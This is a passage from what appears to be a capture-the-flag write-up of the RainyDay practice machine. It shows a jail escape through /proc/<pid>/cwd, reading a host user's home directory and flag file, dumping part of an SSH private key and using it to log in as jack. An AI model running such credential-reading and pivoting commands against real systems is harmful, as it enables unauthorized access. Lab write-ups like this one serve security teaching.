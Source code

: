But with this foothold into the host file system, I can look outside the jail and into that directory:

```

/proc/1195 $ ls -la cwd/
total 36
drwxr-x---    4 1000     1000          4096 Feb 14 18:52 .
drwxr-xr-x    4 root     root          4096 Sep 29 13:47 ..
lrwxrwxrwx    1 root     root             9 Sep 29 12:16 .bash_history -> /dev/null
-rw-r--r--    1 1000     1000           220 Jan  6  2022 .bash_logout
-rw-r--r--    1 1000     1000          3771 Jan  6  2022 .bashrc
drwx------    2 1000     1000          4096 Feb 10 22:44 .cache
-rw-r--r--    1 1000     1000           807 Jan  6  2022 .profile
drwx------    2 1000     1000          4096 Sep 29 13:47 .ssh
-rw-------    1 1000     1000          1423 Feb 14 18:52 .viminfo
-rw-r-----    1 root     1000            33 Feb  9 22:11 user.txt

```

And even read `user.txt`:

```

/proc/1195 $ cat cwd/user.txt
8ad82817************************

```

There’s also a key in `.ssh`:

```

/proc/1195 $ ls cwd/.ssh
authorized_keys  id_rsa           known_hosts
/proc/1195 $ cat cwd/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
...[snip]...

```

It turns out this same vulnerability works in the original container, allowing for skipping of the file read. I’ll look at why in [Beyond Root](#beyond-root).

### SSH

That key works to get a SSH connection as jack on the host:

```

oxdf@hacky$ ssh -i ~/keys/rainyday-jack jack@rainycloud.htb 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-50-generic x86_64)
...[snip]...
jack@rainyday:~$

```

